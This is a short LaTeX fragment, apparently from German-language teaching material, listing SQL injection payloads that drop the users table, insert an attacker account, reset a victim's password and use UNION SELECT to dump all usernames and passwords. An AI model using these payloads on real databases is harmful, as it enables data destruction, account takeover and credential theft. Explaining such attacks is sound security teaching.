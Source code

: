 \begin{infoBox}
    \begin{enumerate}
        \item {}\\
        Der Angreifer fügt eine SQL-Anweisung hinzu, die eine Tabelle löscht. Beispiel:\\
        \begin{codeBlock}{}
            ' OR '1' = '1'; DROP TABLE users; --
        \end{codeBlock}
        \begin{codeBlock}{}
            SELECT * FROM users WHERE username = '' OR '1'='1'; DROP TABLE users; --
        \end{codeBlock}
        \item {}
        Der Angreifer fügt einen neuen Benutzer in die Datenbank ein.\\
        \begin{codeBlock}{}
            ' OR 1=1; INSERT INTO users (username, password) VALUES ('attacker', 'password123'); --
        \end{codeBlock}
        \item {}\\
        \begin{codeBlock}{}
            ' OR '1'='1'; UPDATE users SET password='new password' WHERE username='victim'; --
        \end{codeBlock}
        \item {}\\
        \begin{codeBlock}{}
            ' UNION SELECT username, password FROM users; --
        \end{codeBlock}
        \begin{itemize}
            \item UNION SELECT kombiniert die ursprüngliche Abfrage mit einer neuen Abfrage, die alle Benutzernamen und Passwörter aus der Tabelle users extrahiert und anzeigt
        \end{itemize}
    \end{enumerate}
\end{infoBox}
